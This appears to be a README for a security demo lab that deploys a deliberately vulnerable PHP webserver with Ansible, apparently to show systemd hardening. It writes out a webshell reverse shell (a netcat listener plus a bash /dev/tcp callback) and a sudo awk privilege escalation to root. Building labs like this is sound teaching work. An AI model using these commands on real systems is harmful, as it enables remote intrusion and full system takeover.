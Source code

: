 ```simplehttp.service                        4.9 OK       😃``` 

`ssh-copy-id root@your-webserver.ip`

Go under the `ansible/` directory of this repository:

`cd ansible/`

Define the `inventory` file replacing the conten of *ansible_host* variable with your webserver ip as shown below:

```ini
[php-webserver]

webserver ansible_host=your-webserver.ip
```

Deploy the environment with ansible:

`ansible-playbook -i inventory -v main.yml -u root`

Once finished you are ready to start the demo.

### Getting Started

Using your browser, you'll find the vulnerable service at http://your-webserver.ip/webshell.php.

You can gain a revers shell just using **netcat** from your local machine:

`nc -lnvp 4444`, 

and put this command onto the webshell input form:

`bash -i >& /dev/tcp/your-local.ip/4444 0>&1`.

The result is show in the image below:

![](./webshell.png)

At this time you're ready to check step-by-step the improvements of **systemd** features.

#### Step #1 (exploitation)

Once inside the system we can try to exploit it by searching for misconfigurations.

One of them is located into the `/etc/sudoers` file.

We can recognize this by typing the command `sudo -l`.

The result is shown below:

`(root) NOPASSWD: /usr/bin/awk`

This means we can use `awk` as sudo.

To exploit this misconfiguration we can use the following command:

`sudo /usr/bin/awk 'BEGIN {system("/bin/sh")}'`

At this point we should have become the **root** user!
